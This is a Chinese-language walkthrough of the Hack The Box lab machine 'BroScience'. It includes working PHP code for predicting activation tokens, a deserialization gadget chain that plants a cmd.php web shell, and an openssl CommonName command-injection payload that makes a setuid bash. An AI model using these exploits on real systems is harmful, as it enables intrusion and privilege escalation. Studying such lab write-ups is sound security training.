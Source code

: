 # BroScience

BroScience 是一款中等难度的 Linux 机器，其特点是 Web 应用程序容易受到“LFI”的攻击。通过读取目标上的任意文件的能力，攻击者可以深入了解帐户激活码的生成方式，从而能够创建一组可能有效的令牌来激活新创建的帐户。登录后，进一步枚举显示该站点&#039;的主题选择器功能容易受到使用自定义小工具链的 PHP 反序列化的影响，允许攻击者复制目标系统上的文件，最终导致远程代码执行。一旦站稳了脚跟，就会从数据库中恢复一些哈希值，一旦被破解，就会证明其中包含机器的有效“SSH”密码&#039;的主要用户“bill”。最后，权限升级基于执行 Bash 脚本的 cronjob，该脚本容易受到通过“openssl”生成的证书进行命令注入的攻击，从而丧失对攻击者的“root”访问权限。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/31c3583b-d936-3417-d7dc-fe8bac9644a7.png)

### Web枚举

在主页源码中可以看到img.php包含图片文件名来显示图片

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/2dc83a01-477f-8478-a467-a8697c1cc087.png)

但是会检测“/”，通过对%进行url enocde，实现二次url编码绕过

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/eb88a91d-c738-904a-5674-a6cb48529c93.png)

注册的时候需要激活码，然而这激活码是不可能发到我们的邮箱的

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/be50b738-7d0d-02da-071d-8b167f2e13d5.png)

通过LFI读register.php，可以看到其调用utils.php中的生成函数

```php
// Create the account
include_once 'includes/utils.php';
$activation_code = generate_activation_code();
$res = pg_prepare($db_conn, "check_code_unique_query", 'SELECT id FROM users WHERE activation_code = $1');
$res = pg_execute($db_conn, "check_code_unique_query", array($activation_code));
...
// TODO: Send the activation link to email
$activation_link = "https://broscience.htb/activate.php?code={$activation_code}";

```

跟到utils.php

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/776685f6-d45b-5cbb-ff73-a11e5021156c.png)

它通过时间戳来做随机数种子，而与这个时间戳最接近并且我们能够获取到的，也就是register.php返回的响应头中的Date，将其转为时间戳，再做容错

首先注册一个账户

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/d92160dc-aa86-0b5e-e657-9727937a4128.png)

将响应头的Date拿去转换

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/9ee45648-6d37-8bc5-fc24-aac231f129fe.png)

exp

```php
<?php
function generate_activation_code($time) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand($time);
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    echo $activation_code . "\n";
}

$time = 1704279054;

for ($t = $time;$t <= $time + 20; $t++){
    generate_activation_code($t);
}

?>
```

将生成的code保存到文件，ffuf跑一下

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/532ff7b8-c908-e66b-a8f3-ede7aabcaea6.png)

code应该是有时效的，及时到activate.php上激活

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/dd9e429f-f9d5-ea3b-cf59-6a36e9276a5d.png)

登录

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/2ec75486-4634-77db-a138-56d891243bff.png)

## Foothold

继续通过LFI读user.php

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/af7dd6df-d124-f553-ec03-1c3728f33ac0.png)

跟回到utils.php

```php
class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
		$this->theme = $theme;
    }
}

function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

...
```

不需要脑子的反序列化，exp

```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = '/var/lib/php/sessions/sess_76n6mi015r86vgf1blcnmnhqtl';
    public $imgPath = "/var/www/html/cmd.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$a = new AvatarInterface();
echo base64_encode(serialize($a));
```

将base64复制到Cookie

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/a51955aa-c112-c72f-2652-9a166d3004b1.png)

用相同的方法注册并激活一个恶意用户，并且登录

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/4668239e-a820-159d-2c57-f8f97d39b239.png)

再打一遍反序列化exp。cmd.php

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/5c4c6152-8521-88d9-d183-52c60d46b62a.png)

常规python3 reverse shell

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/ba108f85-0a11-b219-3648-7fd8d84adf73.png)

## 本地横向移动

db_connect.php

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/c2626e6b-b84c-c2d5-37e7-68c354a1df1a.png)

psql进数据库

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/b807e6e2-2131-953a-f222-5a01d2c36523.png)

查表

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/5800a387-b203-32c6-0c1d-472522debc66.png)

直接select * from users;

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/574fae2e-3e4d-5e12-bc97-d7f4fb510955.png)

bill是目标系统上的账户，爆破它的密码hash对我们有利，拿上前面读到的salt进行爆破

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/f3e681cb-b510-52f8-22bc-904ac92b70fe.png)

登ssh

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/44306b82-e707-5e94-80eb-472590189fc5.png)

## 本地权限提升

传个pspy

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/f7a9d0dd-bfe1-39a8-3242-148965f10be3.png)

它会先检查/home/bill/Certs/broscience.crt证书是否是一天内到期

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/7fe9a377-6f2f-17d6-9701-c58b74de2cce.png)

然后它会生成一个证书，并且执行一个bash命令，而我们可以劫持$commonName

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/373c2e47-9e09-a7ac-5fbc-59cc9ca5d27c.png)

在生成证书的时候，我们向CommonName写入cmd

```bash
ill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -out broscience.crt -days 1
...
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(cp /bin/bash /tmp/bash;chmod +s /tmp/bash)
Email Address []:
...
```

等一会，迎接老朋友的到来

![file](https://blog.apt250.zip/wp-content/uploads/2024/01/98a2ce08-b7c6-ab25-1cb0-42c5685d8506.png)
